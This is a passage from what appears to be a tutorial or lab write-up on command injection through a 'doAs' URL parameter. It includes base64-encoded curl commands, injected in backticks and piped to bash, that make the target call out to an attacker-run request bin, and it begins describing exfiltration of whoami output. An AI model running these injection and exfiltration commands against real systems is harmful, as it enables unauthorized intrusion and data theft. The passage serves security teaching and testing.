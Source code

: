 Now you have an associated URL to your request bin and you can send requests to this URL getting all that information needed:

```
curl <REQUEST-BIN-URL>
```

<img src="./assets/requestbin2.png" width=800 height=400>

To check if the server is vulnerable and the command was successfully executed, we would like the target server to communicate with our created logger: we will make the target to send a GET request to our REQUEST-BIN-URL.
We will introduce a curl command inside the backticks that we discussed before.

But first, we will encode it with base64 inside the URL and then execute it using bash command.

```
echo -n "curl <REQUEST-BIN-URL>" | base64
curl -X "GET" http://<IP>:8080/?doAs=`echo <base_64_string> | base64 -d | bash`
```

<img src="./assets/simplecurl.png" width=800 height=90>

We can spot two GET requests as we have talked before: one request sent by our shell because of the backticks and another one interpreted by the target shell, meaning that the target is vulnerable.

<img src="./assets/requestbinget.png" width=700 height=50>

But we will to extract some system information from the target, so we will try to execute a command and send it with curl. The ```-d``` parameter of curl will specify that we send a request with some data in it: that will be the output of the ```whoami``` command.
